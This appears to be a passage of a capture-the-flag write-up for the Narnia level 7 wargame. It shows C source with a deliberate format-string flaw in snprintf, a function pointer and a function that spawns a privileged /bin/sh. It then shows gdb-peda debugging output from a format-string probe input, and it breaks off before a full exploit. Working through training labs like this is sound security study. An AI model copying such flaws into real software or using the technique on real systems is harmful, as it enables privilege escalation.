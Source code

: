 ```c
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof(buffer), format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
            fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```
```c
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

gdb-peda$ x/x $ebp-0x84
0xffffd628:     0x080486ff

# where to overwrite
```
Find the offset of our string on the stack.
```bash
gdb-peda$ r 'AAAA%x%x%x%x'
Starting program: /narnia/narnia7 'AAAA%x%x%x%x'
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd628)
I guess you want to come to the hackedfunction...
[----------------------------------registers-----------------------------------]
EAX: 0x23 ('#')
EBX: 0x0 
ECX: 0x7fffffdc 
EDX: 0xffffd64f --> 0x0 
ESI: 0x2 
EDI: 0xf7fc5000 --> 0x1b2db0 
EBP: 0xffffd6ac --> 0xffffd6b8 --> 0x0 
```